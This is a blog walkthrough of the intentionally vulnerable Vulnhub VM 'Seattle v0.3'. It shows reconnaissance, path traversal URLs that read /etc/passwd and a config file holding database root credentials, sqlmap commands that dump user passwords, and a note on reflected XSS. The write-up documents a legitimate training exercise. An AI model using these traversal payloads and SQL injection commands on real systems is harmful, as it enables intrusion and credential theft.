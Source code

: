 ```yaml
---
layout: post
title: Seattle v0.3 Walkthrough
subtitle: Virtual Machine hosted on vulnhub from HollyGraceful 
category: Vulnhub
tags:
- vulnhub
- walkthrough
bigimg: /img/walkthrough1.jpg
comments: true
---
```


Table of contents

* Will be replaced with the ToC, excluding the "Contents" header
{:toc}

## Preface

Hi guys, today I'm ready to publish my walkthrough against the vm hosted on vulnhub called [Seattle v0.3](
https://www.vulnhub.com/entry/seattle-v03,145/) by HollyGraceful.

Let's go guy! We can find a few notes on [vulnhub's page](https://www.vulnhub.com/entry/seattle-v03,145/)'s description:

```plaintext
Graceful’s VulnVM is web application running on a virtual machine, it’s designed to simulate a simple eCommerce style website which is purposely vulnerable to a number of well know security issues commonly seen in web applications. This is really a pre-release preview of the project but it’s certainly functional as it stands, but I’m planning on doing a lot of work on this in the near future.

The plan is ultimately to have the application vulnerable to a large number of issues with a selection of different filters at different difficulties that way the as testers become better at detecting and exploiting issues the application can get hardened against common exploitation methods to allow the testers a wider ranger of experiences.

The first filters have now been implemented! The application now supports “levels” where Level 1 includes no real filtration of user input and Level 2 includes a simple filter for each vulnerable function.

Currently it’s vulnerable to:

    SQL Injection (Error-based)
    SQL Injection (Blind)
    Reflected Cross-Site Scripting
    Stored Cross-Site Scripting
    Insecure Direct-Object Reference
    Username Enumeration
    Path Traversal
    Exposed phpinfo()
    Exposed Administrative Interface
    Weak Admin Credentials
```


## Information Gathering

After launching netdiscover to find the vm's ip address,
![Net Discover](/assets/seattle/netdiscover.png)

I scanned the server with nmap and I could see apache web server version 2.4.16 was running on port 80:
![Nmap](/assets/seattle/nmap.png)

So I browsed it and I could see this:
![Web Site](/assets/seattle/website.png)


## Vulnerability Analysis

After that I decided to launch nikto, which revealed two directories admin, downloads and a lot of security issues, among which a remote file inclusion vulnerability!
![Nikto](/assets/seattle/nikto.png)


## PHP Info Disclosure

According with nikto that there is a phpinfo page which allows us to run various vulnerabilities to read the PHP source code pages: 

![PHP Info](/assets/seattle/phpinfo.png)

* allow_url_fopen=On    - which implies that LFI may be possible.
* allow_url_include=Off - which implies that RFI may not be possible.
* display_errors=Off    - which implies that errors aren't displayed in output.

![PHP Info 2](/assets/seattle/phpinfo2.png)

* include_path: .:/usr/share/pear:/usr/share/php - LFI only possible for these paths however.


## Path Traversal

if we click on catalogue link, the website offers us a pdf file download link. So I tried to put in the item parameter some ../ and the path of passwd file to use a Local File Inclusion vulnerability according to nikto:

```plaintext
http://192.10.2.9/download.php?item=../../../../etc/passwd
```

and I could download it:

```plaintext
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
systemd-timesync:x:999:997:systemd Time Synchronization:/:/sbin/nologin
systemd-network:x:998:996:systemd Network Management:/:/sbin/nologin
systemd-resolve:x:997:995:systemd Resolver:/:/sbin/nologin
systemd-bus-proxy:x:996:994:systemd Bus Proxy:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
abrt:x:173:173::/etc/abrt:/sbin/nologin
avahi-autoipd:x:170:170:Avahi IPv4LL Stack:/var/lib/avahi-autoipd:/sbin/nologin
webalizer:x:67:67:Webalizer:/var/www/usage:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
squid:x:23:23::/var/spool/squid:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
</div>
<div class="products-list"></div>
```

Then I navigated around the website and I found the admin account :smiley:
![Admin Account](/assets/seattle/admin-account.png)

According with the nikto results I navigated into admin folder and I could see these webpages:
![Admin Webpages](/assets/seattle/admin-webpages.png)

So we can use the LFI vulnerability and we download them:

```plaintext
http://192.10.2.9/download.php?item=../admin/admincontent.php
```

Inside it there was an include file named connection.php:
![Admin Content PHP file](/assets/seattle/admin-content-php.png)

So I downloaded it:

```plaintext
http://192.10.2.9/download.php?item=../admin/connection.php
```

and then I downloaded config.php file:

```plaintext
http://192.10.2.9/download.php?item=../admin/config.php
```

Inside it we can see the root credentials and the name of database! Fine! :smile:

```plaintext
<?php
$host = 'localhost';
$user = 'root';
$pass = 'Alexis*94';
$database = 'seattle';
?>
</div>
<div class="products-list"></div>
```


## User enumeration

If we try to insert fake email and password before, and the admin email and a fake password we can see that the website says us which is the correct email:
![User Enumeration](/assets/seattle/user-enumeration.png)


## Sql Injection

I tried to test sql injection on the products page:
![Sql Error](/assets/seattle/sql-error.png)

Fine :smirk: ! It seemed sql injection vulnerable. After that I tried to use sqlmap to exploit it. So I tried to use Burp Suite to capture http header of webpage and then I used it with sqlmap:
![Burp Suite](/assets/seattle/burp-suite.png)

```plaintext
root@kali:~# sqlmap -r http_header.txt --dbs --dbms MySQL --level 3 --risk 3
```

![SqlMap](/assets/seattle/sqlmap.png)

Good! I found the database seattle, if you remember we find it previously. Now we need to find the tables inside seattle database.If you remember we find one table previously, when I showed the content of admincontent php file, exactly the table's name is tblMembers but we launch sqlmap anyway to enumerate tables:

```plaintext
root@kali:~# sqlmap -r http_header.txt -D seattle --tables --dbms MySQL --level 3 --risk 3
```

We can find three tables tblBlogs, tblMembers and tbProducts:
![SqlMap](/assets/seattle/sqlmap1.png)

Now we need to find the columns of tblMembers to find admin password:

```plaintext
root@kali:~# sqlmap -r http_header.txt -D seattle -T tblMembers -columns --dbms MySQL --level 3 --risk 3
```

![SqlMap](/assets/seattle/sqlmap2.png)

```plaintext
root@kali:~# sqlmap -r http_header.txt -D seattle -T tblMembers -C password --dump --dbms MySQL --level 3 --risk 3
```

![SqlMap](/assets/seattle/sqlmap3.png)

Perfect! Now we can browse in the login page and we enter the admin's email found before and the password:
![Admin Login](/assets/seattle/admin-login.png)


## Reflected XSS

Reflected XSS discovered in author parameter in blog php file:
![Reflected XSS](/assets/seattle/reflected-xss.png)

